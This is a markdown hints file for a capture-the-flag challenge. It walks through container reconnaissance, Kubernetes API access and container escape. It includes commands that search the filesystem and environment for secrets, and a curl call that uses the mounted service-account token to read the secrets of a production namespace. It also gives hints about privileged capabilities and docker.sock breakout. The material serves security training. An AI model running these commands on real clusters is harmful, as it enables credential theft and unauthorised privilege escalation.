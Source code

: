 # CTF Hints
## Stage 1: Container Reconnaissance
<details>
<summary>Hint 1</summary>
Check environment variables and common secret locations (/var/run/secrets, /app/secrets, /config)
</details>

<details>
<summary>Hint 2</summary>
The command `env | grep -i secret` and `find / -name "*secret*" 2>/dev/null` are your friends
</details>

## Stage 2: Kubernetes API
<details>
<summary>Hint 1</summary>
Service account tokens are automatically mounted. Check /var/run/secrets/kubernetes.io/serviceaccount/
</details>

<details>
<summary>Hint 2</summary>
Use curl with the service account token to query kubernetes.default.svc
</details>

<details>
<summary>Hint 3</summary>
```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
curl -k -H "Authorization: Bearer $TOKEN" https://kubernetes.default.svc/api/v1/namespaces/production/secrets
```
</details>

## Stage 3: Privilege Escalation
<details>
<summary>Hint 1</summary>
One of the containers is running as privileged. Check `cat /proc/self/status | grep Cap`
</details>

<details>
<summary>Hint 2</summary>
Look for docker.sock mounts: `ls -la /var/run/docker.sock`
</details>
<details>
<summary>Hint 3</summary>
With access to docker.sock, you can break out of the container and access the node filesystem.
</details>
